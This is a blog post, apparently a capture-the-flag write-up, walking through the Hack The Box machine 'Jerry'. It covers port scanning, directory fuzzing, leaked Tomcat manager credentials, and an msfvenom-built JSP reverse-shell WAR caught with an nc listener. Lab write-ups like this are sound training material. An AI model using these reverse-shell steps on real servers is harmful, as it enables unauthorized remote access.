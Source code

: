 ```yaml
---
title: "Jerry"
date: 2023-09-11T21:46:53+02:00
tags: ["windows","web"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
description: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Jerry
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Jerry

![Untitled](/HTB/jerry-icon.png)

## Tools Used

- nmap
- msfvenom

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

Only one http server in port 8080 running a website powered by Apache Tomcat.

## Enumeration

![Untitled](/HTB/jerry-1.png)

The website looks like a default Apache Tomcat website.

Let’s fuzz the page

```bash
gobuster dir -u http://$IP:8080/ -w ~/Documents/wordlists/KaliLists/dirb/common.txt -x php,html,css,js,py,txt -t 100 -o fuzz | tee fuzz.save
```

```bash
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5931]
```

The manager directory called my attention, could be a potential admin page.

When I try to access to `/manager` directory a prompt with a login form is displayed so I decided to put default/common credentials.

But when I failed the first login attempt a server error is displayed but leaking the credentials

![Untitled](/HTB/jerry-2.png)

![Untitled](/HTB/jerry-3.png)

Once inside we can see a admin tool where we are able to upload WAR files.

## Exploiting

After investigating about WAR files, I found a blog talking about how to build a reverse shell for Tomcat servers.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f war -o shell.war
```

The above command builds a Java JSP reverse shell with war extension.

Now it’s time to upload and deploy the file.

![Untitled](/HTB/jerry-4.png)

A new directory is displayed in the admin tool, let’s access to `/shell` but before we need to set a nc listener.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/jerry-5.png)

**NT\AUTHORITY SYSTEM** without privEsc, I think it is the easiest machine so far.

## Flag(s)

![Untitled](/HTB/jerry-6.png)

![Untitled](/HTB/jerry-7.png)

